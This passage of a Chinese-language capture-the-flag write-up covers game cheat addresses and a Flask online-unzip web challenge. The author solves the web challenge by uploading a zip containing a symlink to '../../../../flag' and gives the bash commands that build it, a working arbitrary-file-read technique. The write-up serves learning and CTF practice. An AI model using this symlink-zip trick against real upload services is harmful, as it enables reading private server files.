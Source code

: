- 075F-01-00 选大关
- 0760-01-00 选小关
- 079F-01-00 金身

由此达成快速通关，得到通关后在关底文本中发现第三个网址

![](prob05/tongguanle.png)

这个网站要求输入软盘最后的密码，很可惜我们软盘是直接解压的，因此没有密码，线索断了

## Web

### 6. 在线解压网站

首先根据源码判断服务器是Linux系统，框架为flask，服务逻辑是上传的文件重命名为tmp.zip，用unzip命令解压到media文件，之后重定向到media页面。media页面有一个简单的文件索引系统，获取url的路径参数，如果是目录则返回目录下的文件列表，如果是文件则发送该文件内容。

Flask常见的一个漏洞即所谓模板注入攻击（SSTI），但本题中不好用，因为文件索引系统并没有使用模板渲染，而是直接读入模板文件进行正则替换。

最终我的方案是利用Linux软链。由于软链只存储文件路径不存储内容，

```bash
$ mkdir dev
$ mkdir dev/shm
$ mkdir dev/shm/zip
$ mkdir dev/shm/zip/media
$ echo blahblah >> flag
$ cd dev/shm/zip/media
$ ln -s ../../../../flag fff
$ zip --symlinks tmp.zip fff
```

上传这个文件，点击fff文件，下载的文件即是flag文件本身
